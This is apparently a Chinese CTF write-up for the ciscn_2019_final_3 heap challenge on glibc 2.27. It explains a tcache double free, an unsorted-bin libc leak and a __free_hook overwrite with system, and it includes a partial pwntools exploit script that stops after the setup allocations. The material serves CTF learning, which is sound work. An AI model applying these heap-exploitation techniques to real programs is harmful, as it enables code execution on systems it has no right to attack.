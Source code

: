 2.26 和 2.27较早的版本是没有double free 检查的，即可以连着2次free同一个chunk

### ciscn_final_3

<https://buuoj.cn/challenges#ciscn_2019_final_3>

libc2.27（无double free检测的版本），只有new和delete，delete之后没有清空指针，并且new之后输出chunk的content部分的地址。不允许分配0x78以上大小的chunk。

整体思路：通过double free可以在任意地址分配chunk的原理，在某个chunk减16的位置分配chunk，新的chunk就可以修改旧的chunk的sz字段，让他可以被free到 unsorted bin 。

没有show函数，如何泄露unsorted bin的地址？

> 切割unsorted bin里的chunk，使这个chunk和一个**已经被free**的tcache chunk开头对齐，这时就相当于修改了tcache chunk的fd，fd= & unsorted bin，
>
> 连续分配两次chunk，就可以在unsorted bin处分配一个chunk， 题目自带泄露chunk地址的功能，就等于泄露了libc

再来一个tcache double free，向free hook写入system，然后free一个content=binsh的chunk，就完事了

**如何想到的呢？**

题目只有new和delete，以及泄露chunk地址。想要泄露libc就必须通过这个自带的泄露实现。因此要在unsorted bin这个地方malloc一个chunk（毕竟我只会通过unsorted bin泄露libc地址），结合题目最大chunk不超过0x78的限制，得到必须要改某个chunk的sz字段的结论。

然后没有edit，只有new的时候能修改，因此要利用“向任意地址分配chunk”的漏洞，然后一看，正好可以用double free，对上了。

至于chunk被free到unsorted bin之后如何泄露fd，bk，这确实很难想到。“切割unsorted bin把它的开头和一个free的tcache chunk对齐” 这一点也只有这道题能用了，毕竟需要有知道chunk被分配到哪里的能力。

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'DEBUG'
context.arch = 'amd64'

p = remote('node4.buuoj.cn',28198)
e = ELF('./ciscn_final_3')
libc = ELF("./libc.so.6") 


def delete(index):
    p.recvuntil(b'choice > ')
    p.sendline(b'2')
    p.recvuntil(b'input the index\n')
    p.sendline(str(index).encode())

def new(index, size, content):
    p.recvuntil(b"choice > ")
    p.sendline(b'1')
    p.recvuntil(b'input the index\n')
    p.sendline(str(index).encode())
    p.recvuntil(b'input the size\n')
    p.sendline(str(size).encode())
    p.recvuntil(b'now you can write something\n')
    p.sendline(content)
    p.recvuntil(b'gift :')
    return eval(p.recvuntil(b'\n')[:-1])

addr0 = new(0, 0x70, 'aaa')
new(1, 0x40, 'aaa')
new(2, 0x70, 'aaa')
new(3, 0x70, 'aaa')
new(4, 0x70, '/bin/sh\x00')
new(5, 0x70, 'aaa')
new(6, 0x70, 'aaa')
new(7, 0x70, 'aaa')
```